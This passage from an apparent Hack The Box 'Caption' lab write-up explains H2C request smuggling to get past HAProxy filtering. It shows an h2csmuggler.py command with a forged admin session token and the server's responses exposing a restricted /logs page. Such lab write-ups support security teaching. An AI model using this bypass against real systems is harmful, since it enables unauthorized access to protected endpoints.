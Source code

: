 
With a method to obtain the admin token in place, the next step was to bypass the proxy filter and gain access to the `/logs` and `/download` endpoints.  

Through in-depth research, we identified HTTP request smuggling as a viable approach for bypassing security restrictions. Comprehensive information about this method is available in HackTricks under [**H2C Smuggling**](https://book.hacktricks.wiki/en/pentesting-web/h2c-smuggling.html?highlight=H2C#h2c-smuggling).  

The approach leverages the server's HTTP/2 compatibility and HAProxy’s reliance on HTTP/2 for streaming communication. By upgrading HTTP/1 requests to HTTP/2 using headers like `Upgrade: h2c`, `HTTP2-Settings`, and `Connection`, the attack circumvents HAProxy's filtering mechanisms. This is possible because HTTP/2 communicates via binary streams, differing from the conventional request/response pattern of HTTP/1.  

To execute the attack, we made use of the `h2csmuggler.py` tool.

```bash
[Jan 23, 2025 - 16:48:17 ] htb caption ➜  python3 h2csmuggler.py -x 'http://caption.htb' http://caption.htb/logs -X "GET" -H "Cookie: session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzM3NjQ4ODgyfQ.j6wdhmR1Ed3hZVUbIwTcsS4__9wFeUio4F30_d23zw8"
[INFO] h2c stream established successfully.
:status: 200
server: Werkzeug/3.0.1 Python/3.10.12
date: Thu, 23 Jan 2025 15:49:12 GMT
content-type: text/html; charset=utf-8
content-length: 4316
x-varnish: 98438
age: 0
via: 1.1 varnish (Varnish/6.6)
x-cache: MISS
accept-ranges: bytes


<!DOCTYPE html>
<html lang="en" >

<head>
  <meta charset="UTF-8">

    <script src="https://cpwebassets.codepen.io/assets/common/stopExecutionOnTimeout-2c7831bb44f98c1391d6a4ffda0e1fd302503391ca806e7fcc7b9b87197aec26.js"></script>


  <title>Caption Portal Login</title>
</html>
[INFO] Requesting - /logs
:status: 200
server: Werkzeug/3.0.1 Python/3.10.12
date: Thu, 23 Jan 2025 15:49:13 GMT
content-type: text/html; charset=utf-8
content-length: 4228
x-varnish: 98439
age: 0
via: 1.1 varnish (Varnish/6.6)
x-cache: MISS
accept-ranges: bytes

<...snip...>

  <header class="container my-4">
    <div class="row">
      <!-- vai ocupar todo o espaço se a tela for pequena -->
      <!-- col-lg-6 para telas grandes -->

        <center><h1>Log Management</h1></center>
```